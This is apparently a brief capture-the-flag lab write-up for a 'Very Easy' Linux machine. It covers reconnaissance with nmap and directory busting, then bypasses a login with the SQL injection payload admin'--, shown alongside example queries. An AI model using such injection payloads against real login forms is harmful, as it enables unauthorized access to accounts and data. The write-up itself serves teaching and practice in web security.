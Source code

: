# Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Linux | 10/05/2022 | 10/05/2022 | Yes |


# Thought process
1. View running services with `nmap`.
2. Check if there were subdirectories with the `dirbust`.
3. Since it was a LogIn, see if SQL Injection can be done.


# Resolution
To Login a Web is just a SELECT to the database, but if in the username you write **admin'--** the rest of the query is commented out and does not look for a password. SQL Injection. 

> Normal Login Query
```sql
SELECT * FROM users WHERE name='admin' and password='123456aA'
```

> Query with SQL Injection
```sql
SELECT * FROM members WHERE username = 'admin'--' AND password = '123456aA'
```


# Links
[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)


# Tags
#SQL #SQL_Injection

